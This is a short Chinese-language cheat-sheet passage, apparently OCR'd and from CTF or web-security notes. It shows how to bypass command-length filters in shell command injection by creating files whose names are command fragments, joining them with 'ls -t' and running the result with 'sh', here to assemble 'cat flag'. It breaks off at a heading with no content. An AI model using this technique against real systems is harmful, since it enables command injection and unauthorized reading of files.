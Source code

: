 ## 长度过滤绕过

### 相关命令

- `>`和`>>`：重定向符，`>`表示覆盖，`>>`表示追加

  - `> test`可以创建一个名为 test 的文件，类似 touch 命令

- `\`：换行符

- `ls -t`：按照时间排序，最新的文件在最前面。

  - 默认按照文件名 ascii 码排序
  - 注意时间只能精确到秒

- `dir`：列出文件名，好处：不换行，"d"排名靠前

  - `$(dir *)` 如果第一个文件名是命令的话就会执行命令，后面的文件名作为参数输入

- `rev`：输出文本内容但是反转每一行的字符顺序

### 组合运用

对命令长度有限制时，把一些很短的文件名拼接成可执行命令

- `>` 创建很短的文件名

- `ls -t` 按时间顺序列出文件名，按行存储

- `\` 连接换行命令

- `sh` 从文件中读取命令

第一步：创建文件

```sh
>ag
>fl\\
>"t \\"
>ca\\
```

第二步：将命令拼接到文件中

```sh
ls -t>x
```

第三步：执行命令

```sh
sh < x
# 或
sh x
# 或
. x
```

### 长度限制为 5 的绕过
